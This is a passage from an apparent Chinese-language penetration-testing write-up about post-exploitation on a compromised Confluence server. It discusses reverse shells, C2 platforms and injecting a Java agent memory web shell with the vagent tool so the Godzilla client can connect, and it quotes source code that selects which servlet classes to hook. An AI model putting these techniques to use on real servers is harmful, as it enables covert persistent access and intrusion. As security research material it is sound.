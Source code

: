 这样的话我们也可以达到一种武器化。但是既然都出网了，我们为什么不反弹 shell 然后做后渗透呢？你说得对，这一是一种方法

### 0.2.1.2 Agent Memshell+ReverseShell

假如我们通过反弹 shell 获得了一个 confluence 权限，那么我们可以注入内存马吗？答案是肯定的，但是既然都拿到了反弹 shell，我们当然也是可以直接上 C2 平台后渗透的，但是有时候有一些特殊的需求，我们是必须需要内存马的。  
这时候可以使用 vagent 进行后渗透处理。  
[https://github.com/veo/vagent](https://github.com/veo/vagent)  
使用效果如下，我们可以直接进行哥斯拉连接

[![](assets/1710899069-657af64d52c01189bc1b1d52401ec6ae.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240227111449-5e08bbe0-d51e-1.png)

至于 agent 内存马的原理就可以自行去了解，阅读一下 vagent 的源码会很有帮助～

```plain
public static Map targetClasses() {
        Map targetClasses = new HashMap();
        Map targetClassJavaxMap = new HashMap();
        targetClassJavaxMap.put("methodName", "service");
        List paramJavaxClsStrList = new ArrayList();
        paramJavaxClsStrList.add("javax.servlet.ServletRequest");
        paramJavaxClsStrList.add("javax.servlet.ServletResponse");
        targetClassJavaxMap.put("paramList", paramJavaxClsStrList);
        targetClasses.put("javax.servlet.http.HttpServlet", targetClassJavaxMap);
        Map targetClassJakartaMap = new HashMap();
        targetClassJakartaMap.put("methodName", "service");
        List paramJakartaClsStrList = new ArrayList();
        paramJakartaClsStrList.add("jakarta.servlet.ServletRequest");
        paramJakartaClsStrList.add("jakarta.servlet.ServletResponse");
        targetClassJakartaMap.put("paramList", paramJakartaClsStrList);
        targetClasses.put("javax.servlet.http.HttpServlet", targetClassJavaxMap);
        targetClasses.put("jakarta.servlet.http.HttpServlet", targetClassJakartaMap);
        if (ServerDetector.isWebLogic()) {
            targetClasses.clear();
            Map targetClassWeblogicMap = new HashMap();
            targetClassWeblogicMap.put("methodName", "execute");
            List paramWeblogicClsStrList = new ArrayList();
            paramWeblogicClsStrList.add("javax.servlet.ServletRequest");
            paramWeblogicClsStrList.add("javax.servlet.ServletResponse");
            targetClassWeblogicMap.put("paramList", paramWeblogicClsStrList);
            targetClasses.put("weblogic.servlet.internal.ServletStubImpl", targetClassWeblogicMap);
        }
```
